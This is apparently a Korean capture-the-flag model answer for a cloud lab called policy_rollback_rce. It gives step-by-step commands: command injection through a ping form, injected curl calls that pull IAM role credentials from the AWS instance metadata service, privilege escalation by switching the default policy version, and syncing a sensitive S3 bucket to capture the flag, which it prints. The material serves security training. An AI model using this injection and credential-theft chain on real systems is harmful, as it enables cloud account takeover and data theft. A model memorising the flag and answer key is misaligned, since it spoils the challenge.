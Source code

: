 # [policy_rollback_rce] 모범 답안

1. 웹사이트에 RCE취약점이 발생하는 것을 확인하세요. 단순한 ping test화면 같지만 command injection을 통해 RCE가 발생하게 됩니다.
```bash
; ls
```

2. 인스턴스에서 IMDSv2를 사용하기 때문이 이를 이용하기 위한 토큰을 발급한 후 메타데이터서비스에 접근한다
```bash
; TOKEN=$(curl -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600"); curl -H "X-aws-ec2-metadata-token: $TOKEN" http://169.254.169.254/latest/meta-data/
```

3. 메타데이터서비스를 통해 인스턴스에 할당된 역할을 확인할 수 있다.
```bash
; TOKEN=$(curl -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600"); curl -H "X-aws-ec2-metadata-token: $TOKEN" http://169.254.169.254/latest/meta-data/iam/security-credentials/policy-rollback-rce-ec2-role
```

4. 얻은 자격증명을 자신의 프로필에 등록해준다
```bash
aws configure --profile rce_server
```

5. 해당 역할의 상세 정보를 먼저 확인한다
```bash
aws sts get-caller-identity --profile rce_server
```
- 이를 통해 역할의 arn과 이름정보를 확인할 수 있다.

6. 역할에 연결된 정책을 확인해본다.
```bash
aws iam list-attached-role-policies --role-name <역할 이름> --profile rce_server
```
해당 역할에 연결된 s3manager라는 이름의 정책 이름을 확인할 수 있다.

7. 정책의 버전을 확인해본다.
```bash
aws iam-get-policy --policy-arn <정책의 arn> --profile rce_server
```
정책의 버전이 현재 v1인것을 확인할 수 있다.

8. 현재 정책 버전의 권한을 확인해본다.

```bash
aws iam get-policy-version --policy-arn <정책의 arn> --profile rce_server --version-id v1
```
현재 버전에 `iam:SetDefaultPolicyVersion`이 존재하는 것을 확인 -> 다른 버전의 정책으로 교체 가능

9. 다른 버전의 정책을 확인해본다.
```bash
aws iam get-policy-version --policy-arn <정책의 arn> --profile rce_server --version-id v2
```
v2의 정책에 s3관련 권한이 모두 할당되있는 것을 확인할 수 있다.

10. v2의 정책으로 교체해준다.
```bash
aws iam set-default-policy-version --policy-arn <정책의 arn> --profile rce_server --version-id v2
```

11. S3에 접근이 가능해졌고 기밀데이터를 유출한다.
```bash
aws s3 ls

aws s3 ls s3://policy-rollback-rce-sensitive-data --profile rce_server

aws s3 sync s3://policy-rollback-rce-sensitive-data ./ --profile rce_server
```
flag.txt를 받아올 수 있다.

`flag` : FLAG{pO1iCy_rollb4CK_rcE_5uCCeS5}